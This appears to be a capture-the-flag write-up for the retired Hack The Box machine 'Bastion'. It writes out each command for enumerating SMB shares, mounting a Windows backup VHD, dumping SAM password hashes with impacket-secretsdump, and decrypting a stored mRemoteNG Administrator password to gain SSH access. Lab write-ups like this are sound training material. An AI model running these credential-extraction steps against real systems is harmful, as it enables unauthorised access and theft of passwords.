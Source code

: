 # Bastion

This is the write-up for the box Bastion that got retired at the 7th September 2019.
My IP address was 10.10.15.199 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.134    bastion.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bastion.nmap 10.10.10.134
```

```markdown
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Checking SMB (Port 445)

Lets look for shares:
```markdown
smbclient -L //10.10.10.134
```
 ```markdown       
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
Backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

The only share that is unique is _Backups_. Lets look for the permissions any user has:
```markdown
smbmap -u testuser -H 10.10.10.134
```

We got Read-Write permissions on that share so we should mount this to find something:

```markdown
mount -t cifs //10.10.10.134/Backups /mnt/smb/
```

There is a file named **note.txt** that says:
> Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.

In this share we see a folder _WindowsBackupImage_ which looks like a backup from another PC and the folder is over 5 GB in size.
The path that has interesting files is:
> WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/

In this path we got a **.vhd** file that has a file size around 5 GB. We can view the files with 7zip but that takes to long.
```markdown
7z l 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
```

We should mount that to our local system to browse it more comfortably. To do that we need to install the **libguestfs-tools**.
```markdown
apt install libguestfs-tools
```

Now we get the _guestmount_ command to mount a VHD file in Linux.
```markdown
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
```

We can browse through the vhd file on the mounted path.

### Checking the VHD file

We see that we are in a C: drive of a Windows PC. Now we can extract passwords to see if we can use that later for SSH.
To do that we copy the files **SYSTEM** and **SAM** that are both located in **Windows/System32/config/** to our local machine.

- SAM
  - User database
- SYSTEM
  - Boot key to decrypt SAM database
 
With an Impacket script we can easily extract the hashes:
```markdown
impacket-secretsdump -sam SAM -system SYSTEM local
```

This is the output:
```markdown
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

The _31d6_ tells us that the Administrator account either has no password set or is disabled so we need to decrypt the hash of _L4mpje_.
His hash can be found on _hashes.org_ and is:
> bureaulampje

Trying the user with that password on SSH and we have a shell!

## Privilege Escalation

When we check for the Administrators account and group we can see that the last logon was not long ago, but the SAM and SYSTEM files were from February.
That explains why the account shows a blank password.

After enumerating for a while you we find an interesting program that is installed on the box. It is mRemoteNG, that is used to manage several server sessions in one application.
That is what a Bastion host does.

This application had a vulnerability where you could decrypt and extract the password from the configuration file. 
There is a script on GitHub called [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt) that we will use for that task. 

The configuration file is located here:
> C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml

If we search for _password_ in that file we will get two strings:
```markdown
user:L4mpje Password:yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
user:Administrator Password:aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```
```markdown
python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```


Decrypting the string from _L4mpje_ will result in the same password as before. So the script is working.
Now decrypt the string from Administrator and we get a password:
> thXLHM96BeKL0ER2

We try this password with Administrator on SSH:
```markdown
ssh Administrator@10.10.10.134
``` 

We are logged in as Administrator on the box!

> Tip: If we use Impackets psexec.py we will be logged in as _NT Authority/SYSTEM_.


